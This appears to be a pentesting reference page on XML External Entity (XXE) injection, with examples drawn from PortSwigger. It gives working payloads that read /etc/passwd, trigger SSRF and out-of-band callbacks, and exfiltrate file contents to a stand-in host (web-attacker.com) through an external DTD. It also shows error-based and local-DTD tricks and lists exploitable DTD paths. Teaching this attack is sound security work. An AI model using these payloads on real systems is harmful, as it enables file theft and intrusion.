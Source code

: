 ```yaml
---
description: Injecting Entities into XML data to read local files and exfiltrate data
---
```


# XML External Entities (XXE)

{% embed url="https://portswigger.net/web-security/xxe" %}
Source of most examples on this page
{% endembed %}

## XML

Extensible Markup Language (XML) is a common data format for defining structures of data that can be nested. The basics are very simple, HTML is basically XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

It also allows variables called "entities" to be defined and used throughout the document. These are defined in the Document Type Definition (DTD) using a `<!ENTITY` tag. After that, they can be used anywhere in the document using the `&[name];` syntax:

{% code title="Example of XML Entities" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY something "381"> ]>
<stockCheck><productId>&something;</productId></stockCheck>
```
{% endcode %}

## External Entities

This becomes more dangerous when we introduce **External Entities**. These can reference local files or remote URLs:

{% code title="Example of a local file" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

{% code title="Example of a remote URL" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/endpoint?key=value"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

These become exploitable when an attacker can inject such entities into a document that will be parsed by the server, and then the result is returned in the response. You could easily read a local file like this, or make any GET request by the server (SSRF).&#x20;

## Blind XXE

In some cases, the document you send to the server is not directly returned back to you, only parsed by the server. All hope is not lost, as there are still various different techniques to make it exploitable.&#x20;

These can be easily detected with out-of-band detection. Tools like [`interactsh-client`](https://github.com/projectdiscovery/interactsh) can set up a domain that listens for DNS and HTTP requests, and you can send this domain as an external entity to see if a callback happens:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### External DTDs

The goal of most XXE injections is to exfiltrate a local file. Using entities, we can load a file into a variable, and we can make a DNS/HTTP request to any fixed URL. But we can combine the two with External DTDs, which allow the **nesting** of entities using special "parameter entities". You can recognize these by the `%` percentage sign during definition and are used with the `%[name];` syntax.&#x20;

This allows us to define a `file` entity, and then put this entity into the URL of another entity. Once these are used anywhere in the document, the contents of the file are put in the URL and the request is made:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
{% endcode %}

The catch is that External DTDs need to be, well, **external**. This means they cannot be inside of your initial payload and must be fetched from a local file or a remote URL. An attacker can host the file above, and then create the XXE injection attack with the following payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Error Based

A server might be hardened so that it cannot make random outgoing connections to your attacker's website, either to fetch the External DTD or to exfiltrate the file contents. In this case, two new techniques can be combined to still exfiltrate local files.&#x20;

An application might return details about an error when something goes wrong during the parsing of the XML document. One such error would be if it cannot find the local file specified in the entity. We can abuse this by defining a `%file;` entity again, and then using the file contents in the **path** of another entity, showing those contents in an error message:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

{% code title="Example response" %}
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
{% endcode %}

Now you might be thinking, how do we load that external entity if outgoing connections are blocked? And this is where the second technique comes in.&#x20;

On many systems, there are **existing** XML **DTDs** that can be repurposed by us attackers to do something similar to what you see above. One simple example is the \
`/usr/share/xml/fontconfig/fonts.dtd`\
file with the following content:

{% code title="fonts.dtd" %}
```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```
{% endcode %}

The danger here is that an attacker can define this `%expr;` variable **before** it is defined here, and only the first definition will be used. From here, the attacker can escape the context using `)>` to add their own entities as if it were an external DTD that they control:

```xml
<!DOCTYPE message [
    <!-- Define the file path -->
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!-- Overwrite the %expr; entity to inject our error-based entities -->
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    <!-- Load the local DTD now that it is set up -->
    %local_dtd;
]>
<message></message>
```

The payload needed will depend on what variables you can overwrite, and the context they are in. Template payloads on 5 different example contexts can be found here:

{% embed url="https://github.com/GoSecure/dtd-finder/blob/2c69ee0be7ab62dd470f0057799577d887782ead/src/main/kotlin/EntityTester.kt#L139-L223" %}
5 different context escapes using local DTDs
{% endembed %}

Here are a few more paths where you might find an existing exploitable DTD:

<details>

<summary>Wordlist (<a href="https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/">source</a>)</summary>

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

</details>

This technique will allow you to again get the file contents in the error message, without needing any outgoing connection to your server.&#x20;

## XSLT Injection

{% embed url="https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations" %}
A similar technique using transformation language to read/write files and execute code
{% endembed %}
